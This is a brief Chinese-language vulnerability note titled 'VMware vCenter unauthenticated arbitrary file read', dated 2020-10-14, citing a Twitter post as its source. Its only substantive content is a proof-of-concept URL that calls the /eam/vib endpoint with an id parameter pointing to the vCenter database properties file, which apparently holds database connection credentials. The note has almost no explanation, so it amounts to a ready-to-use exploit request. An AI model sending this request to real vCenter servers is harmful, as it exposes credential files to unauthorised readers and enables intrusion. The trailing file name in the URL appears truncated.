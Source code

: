# VMware vCenter未授权任意文件读取

最后更新于：2020-10-14 11:26:15

![img](VMware%20vCenter%E6%9C%AA%E6%8E%88%E6%9D%83%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/wp_editor_md_628cdb7ff003c577075aad68244e8924.jpg)
Poc:

```markup
http://x.x.x.x/eam/vib?id=c:\programData\Vmware\vCenterServer\cfg\vmware-vpx\vcdb.properti
```

原文链接：
https://twitter.com/ptswarm/status/1316016337550938122